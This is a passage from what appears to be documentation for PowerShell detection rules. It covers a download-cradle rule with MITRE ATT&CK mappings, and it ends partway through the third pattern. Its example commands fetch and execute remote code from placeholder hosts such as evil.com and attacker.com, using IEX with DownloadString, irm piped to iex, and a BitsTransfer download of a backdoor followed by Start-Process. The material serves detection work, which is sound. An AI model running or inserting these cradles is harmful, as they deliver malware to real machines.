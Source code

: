 #### Long-term Strategy
1. **Baseline normal PowerShell usage** in your environment
2. **Implement behavior-based detection** using SIEM/EDR
3. **Regular security awareness training** on script security
4. **Adopt Just Enough Administration (JEA)** to limit PowerShell capabilities

---

## Rule 48: Download Cradle Detection

### Description
Detects download cradles that fetch and execute remote code without touching disk, a common malware delivery technique.

### MITRE ATT&CK Mapping
- **T1105**: Ingress Tool Transfer
- **T1059.001**: Command and Scripting Interpreter: PowerShell
- **T1204.002**: User Execution: Malicious File
- **T1027.004**: Obfuscated Files or Information: Compile After Delivery
- **T1620**: Reflective Code Loading
- **T1197**: BITS Jobs

### Detection Patterns

#### 1. Classic WebClient Download with IEX (Critical)
**Pattern**: `IEX (New-Object Net.WebClient).DownloadString(...)`

**Example**:
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://malicious.com/payload.ps1')
```

**Why it's dangerous**: Downloads and executes code directly in memory without creating files.

#### 2. Invoke-WebRequest/RestMethod with IEX (Critical)
**Pattern**: Web request commands piped to `IEX` or `Invoke-Expression`

**Example**:
```powershell
Invoke-WebRequest -Uri 'http://evil.com/script.ps1' | IEX
irm http://attacker.com/cmd.ps1 | iex
```

**Why it's dangerous**: Modern cmdlets used for fileless payload delivery.

#### 3. BitsTransfer + Execution (Critical)
**Pattern**: `Start-BitsTransfer` followed by execution commands

**Example**:
```powershell
Start-BitsTransfer -Source 'http://malware.com/backdoor.exe' -Destination 'C:\Temp\backdoor.exe'
Start-Process 'C:\Temp\backdoor.exe'
```
